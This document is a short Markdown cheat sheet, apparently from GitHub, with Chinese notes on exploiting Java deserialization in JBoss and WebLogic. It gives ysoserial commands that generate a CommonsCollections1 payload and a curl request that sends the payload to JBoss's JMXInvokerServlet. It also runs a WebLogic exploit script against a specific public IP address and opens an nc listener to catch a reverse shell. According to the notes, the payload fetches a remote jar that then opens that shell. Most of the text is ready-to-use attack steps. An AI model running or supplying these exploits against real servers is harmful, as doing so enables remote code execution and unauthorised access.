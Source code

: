 ## JavaDeserialization

###jboss：
#####一
```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >~/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '~/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```
[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  
####二  
https://github.com/njfox/Java-Deserialization-Exploit  
暫未測試。


###weblogic：  
```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
▶ python weblogic.py 116.208.2.162 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```
Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  

[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

--

通用漏洞可以從這裡總結：  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905